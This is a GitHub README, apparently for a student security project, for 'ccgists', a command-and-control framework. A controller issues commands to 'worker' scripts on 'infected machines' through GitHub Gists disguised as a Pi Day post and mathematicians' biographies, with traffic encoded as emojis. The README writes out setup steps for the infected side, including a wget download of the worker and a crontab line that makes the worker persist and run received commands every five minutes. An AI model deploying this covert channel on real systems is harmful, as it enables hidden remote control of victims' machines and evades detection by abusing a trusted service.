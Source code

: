 <a name="readme-top"></a>

[![Stargazers][stars-shield]][stars-url]
[![MIT License][license-shield]][license-url]
[![LinkedIn][linkedin-shield]][linkedin-url]

<!-- PROJECT LOGO -->
<br />
<div align="center">
  <a href="https://github.com/andrsdt/ccgists">
    <img src="https://i.imgur.com/ZoJzgg1.png" alt="Logo" width="" height="80">
  </a>

</div>

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li>
      <a href="#about-the-project">About The Project</a>
    </li>
    <li>
      <a href="#getting-started">Getting Started</a>
      <ul>
        <li><a href="#installation">Installation</a></li>
      </ul>
    </li>
    <li><a href="#usage">Usage</a></li>
    <li><a href="#license">License</a></li>
    <li><a href="#contact">Contact</a></li>
  </ol>
</details>

<!-- ABOUT THE PROJECT -->

## About The Project

This repository contains the code for the **ccgists** project, which is composed of two independent projects:

- `controller`: a Python script that allows for centralized management of the C2 infrastructure. It allows the attacker to see the list of available agents, send commands to them and read the output of the commands.
- `worker`: a Python script that runs periodically on the infected machine and communicates with the controller to inform about its state. In case of pending commands, it executes them and sends the output back to the controller.

The communication is done entirely through GitHub Gists. There is a gist disguised as **a celebration for the Pi Day**, where infected computers will post their status. When the attacker sends a command to an infected machine, it creates a gist disguised as **a mathematician's biography** that will be used as a thread for that communication. Commands and outputs with that machine will be encoded as emojis.

![](https://i.imgur.com/JSsuHea.gif)

<!-- GETTING STARTED -->

## Getting Started

We will first set up the infected machines, and then the controller.

For both machines, we will use a GitHub personal access token to authenticate the requests. This token will be used to do operations with gists, which will be the only communication channel between the infected machines and the controller. A token for my account can be found in the report in Google Docs for the subject, but note that it will create private gists on my account that won't be visible from the professor's account. It's better to provide your own token, you can create one in the [GitHub settings](https://github.com/settings/tokens?type=beta). Only the scope for managing gists is required.

### Installation

#### Infected machines

1. Download and unzip the latest release from the [releases page](https://github.com/andrsdt/ccgists/releases)

```sh
wget -q https://github.com/andrsdt/ccgists/releases/latest/download/worker.tar.gz
mkdir ~/.worker; tar -xf worker.tar.gz -C ~/.worker; rm worker.tar.gz
cd .worker
```

2. Create a virtual environment

```sh
python3 -m venv .venv
source .venv/bin/activate
```

3. Install the dependencies

```sh
pip install -r requirements.txt
```

4. Create the `.env` file with the GitHub Token

```sh
echo "GITHUB_TOKEN=<secret_token>" > .env
```

5. Run the worker

```sh
python3 ./dist/main.py
```

The script can be run with `python3 ./worker/dist/main.py` and it will do its routine tasks when executed. It can be scheduled to run periodically (for example, every 5 minutes) with `crontab` by running the following bash command:

```sh
crontab -l | { cat; echo "*/5 * * * * $HOME/.worker/.venv/bin/python3 $HOME/.worker/dist/main.py"; } | crontab -
```

#### Controller

The controller's entry point is a Python script in `controller/src/main.py`. The setup is similar to the script for infected machines:

1. Download and unzip the latest release from the [releases page](https://github.com/andrsdt/ccgists/releases)

```sh
wget https://github.com/andrsdt/ccgists/releases/latest/download/controller.tar.gz
mkdir ccgists; tar -xf controller.tar.gz -C ccgists
cd ccgists
```

2. Create a virtual environment

```sh
python3 -m venv .venv
source .venv/bin/activate
```

3. Install the dependencies

```sh
pip install -r requirements.txt
```

4. Create the `.env` file with the GitHub Token

```sh
echo "GITHUB_TOKEN=<secret_token>" > .env
```

5. Run the controller

```sh
python3 ./src/main.py
```

<p align="right">(<a href="#readme-top">back to top</a>)</p>

<!-- USAGE EXAMPLES -->

## Usage

The script is intuitive to use, and it will show a menu with the available options. The menu will show the available agents, and the user can select one of them to send commands to it. These will be processed as soon as the infected machine runs the script again.

_For any doubt in the usage, do not hesitate to contact me_

<p align="right">(<a href="#readme-top">back to top</a>)</p>

<!-- LICENSE -->

## License

Distributed under the MIT License. See `LICENSE.txt` for more information.

<p align="right">(<a href="#readme-top">back to top</a>)</p>

<!-- CONTACT -->

## Contact

Andrés Durán - [@andresdt](https://twitter.com/andresdt) - [andrez#0077](https://discord.com) - duranand@fit.cvut.cz

Project Link: [https://github.com/andrsdt/ccgists](https://github.com/andrsdt/ccgists)

<p align="right">(<a href="#readme-top">back to top</a>)</p>

<!-- MARKDOWN LINKS & IMAGES -->
<!-- https://www.markdownguide.org/basic-syntax/#reference-style-links -->

[stars-shield]: https://img.shields.io/github/stars/othneildrew/Best-README-Template.svg?style=for-the-badge
[stars-url]: https://github.com/andrsdt/ccgists/stargazers
[license-shield]: https://img.shields.io/github/license/othneildrew/Best-README-Template.svg?style=for-the-badge
[license-url]: https://github.com/andrsdt/ccgists/blob/master/LICENSE.txt
[linkedin-shield]: https://img.shields.io/badge/-LinkedIn-black.svg?style=for-the-badge&logo=linkedin&colorB=555
[linkedin-url]: https://linkedin.com/in/andrsdt
